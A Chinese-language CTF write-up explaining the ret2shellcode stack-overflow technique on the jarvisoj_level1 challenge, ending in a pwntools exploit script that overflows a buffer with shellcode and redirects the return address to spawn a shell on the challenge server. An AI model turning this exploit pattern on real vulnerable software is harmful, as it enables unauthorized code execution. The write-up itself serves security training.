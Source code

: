 ```yaml
---
title: ret2shellcode
---
```


## 原理

篡改栈帧上的返回地址为攻击者手动传入的shellcode所在缓冲区地址，并且该区域有执行权限。
## 例题
jarvisoj_level1，可在jarvisoj网站中下载。首先使用checksec工具查看它开了啥保护措施，基本全关，栈可执行。

![1.jpg](/images/ret2shellcode/1.jpg)

一样的使用ida查看一下该程序，在危险函数中，程序向我们输出了一个栈站上的地址因此我们可以朝buf写一段shellcode，然后
将返回地址覆盖为buf的地址。在pwntools中可以使用shellcraft.sh()写shellcode，再使用asm将其转换成机器码。

![2.jpg](/images/ret2shellcode/2.jpg)

ida帮我们计算出来了buf字符串距离rbp有0x88个字节，由于ebp本身还占4个字节，所以溢出0x8c个字节后将返回地址修改为buf地址，python有
个自带的方法ljust可以将我们的shellcode长度补充为固定字节，期作用是使shellcode左对齐，然后不足长度补齐指定数据。

```python
from pwn import *

#p = process('./level1')
p = remote('pwn2.jarvisoj.com',9877)
s = p.recv()
addr = bytes.decode(s)[12:-2]

shellcode = asm(shellcraft.sh())
payload = shellcode.ljust(0x8c,b'A') + p32(int(addr,16))

p.sendline(payload)
p.interactive()
```